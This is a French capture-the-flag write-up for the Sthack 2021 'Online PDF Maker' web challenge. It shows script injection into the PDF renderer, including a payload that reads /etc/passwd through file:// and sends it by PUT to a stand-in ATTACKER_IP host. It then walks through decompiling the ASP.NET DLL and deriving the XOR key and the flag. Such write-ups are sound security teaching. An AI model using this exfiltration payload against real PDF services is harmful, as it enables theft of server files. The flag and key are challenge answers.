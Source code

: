 ```yaml
---
title: Web - Online PDF Maker
category: Sthack2021
author: karzemrok
tags:
- sthack2021
- web
- ctf
description: "Writeup Sthack 2021 - Online PDF Maker - WEB"
---
```


L'application disponible nous propose d'entrer un texte et de le transformer en PDF

![]({{site.url}}/static/upload_412dab4cc8bb5e4a25db2b393616317d.png)

Une vulnérabilité courante ici, c'est l'XSS dans le moteur de rendu du PDF. Il est possible de le vérifier avec le payload suivant:

```html
<script>
document.write('test');
</script>
```

![]({{site.url}}/static/upload_dd513641a33e58411ece557d3e82cfe2.png)

Il peut être aussi intéressant de savoir d'ou est rendu le PDF

```html
<script>
document.write(document.location);
</script>
```

![]({{site.url}}/static/upload_649b2b7457c62b1ec90c026cd3d5b20f.png)

Comme le PDF est rendu depuis un fichier (**file:///tmp/wktemp...**), nous allons pouvoir exfiltrer des fichiers. Nous pouvons par exemple extraire **/etc/passwd** de cette façon

```html
<script>
x=new XMLHttpRequest;
x.onload=function(){
    var x2 = new XMLHttpRequest();
    x2.open("PUT", 'http://ATTACKER_IP/sthack/passwd');
    x2.send(this.response)
};
x.open("GET","file:///etc/passwd");
x.responseType = 'arraybuffer';
x.send();
</script>
```

Maintenant que nous sommes en mesure de télécharger des fichiers sur la machine, il nous faut trouver des fichiers intéressants (comme les sources par exemple). Nous avons un indice dans l'HTML de l'application

![]({{site.url}}/static/upload_755639ef667bd38587be7cbcf89d83f0.png)

Nous savons que l'application est de l'ASP.net, il faut donc chercher un fichier **dll**. En tatonnant un peu, on trouve que le nom du fichier dll est le même que le copyright : `OnlinePdfMaker.dll`

Une fois la Dll décompilée avec [ILSpy](https://github.com/icsharpcode/ILSpy), on trouve ce bout de code qui semble gérer l'affichage du flag:

```csharp
string text = "";
string s = "FBMqE3MvFDkUGDM4MVUdFgAwAEA0Cj4SbwEGAQA3B1c6QhE7CAg6";
string text2 = "VGhlRmxhZ0lzU29tZXdoZXJlX3VzZV95b3VyX2JyYWlu";
text2 = text2.Substring(1, 1) + text2.Substring(1, 1) + text2.Substring(32, 1) + text2.Substring(4, 1) + text2.Substring(9, 1);
text2 += Encoding.Default.GetString(Convert.FromBase64String("ZG9uJ3RfZ3Vlc3NfbG9va19hdF90aGVfY29kZSEhXzsp"));
if (!string.Equals(keyValue, text2))
{
	text = ((keyValue != null && !keyValue.Equals("")) ? "Wrong key" : "");
}
else
{
	string text3 = EncryptModel.XORCipher(Encoding.Default.GetString(Convert.FromBase64String(s)), text2);
	text = "flag : " + text3;
}
```

Après la ligne 4, text2 à la valeur `GGbR0`. A cette valeur, on ajoute `ZG9uJ3RfZ3Vlc3NfbG9va19hdF90aGVfY29kZSEhXzsp` dans sa forme base64 décodée (`don't_guess_look_at_the_code!!_;)`)

Ensuite cette varible est utilisée en tant que clé XOR pour la valeur base64 décodée de `FBMqE3MvFDkUGDM4MVUdFgAwAEA0Cj4SbwEGAQA3B1c6QhE7CAg6`

Ce qui nous donne le flag `STHACK{W3ll_D0ne_\o/_U_f0und_Th3_c0d3!}`

On aurait aussi pu mettre `GGbR0don't_guess_look_at_the_code!!_;)` dans le paramètre `keyValue` du formulaire de génération de PDF pour voir le flag injecté dans le PDF directement.

![]({{site.url}}/static/upload_d6efbae1ee68a7ac33ac12d65656320b.png)


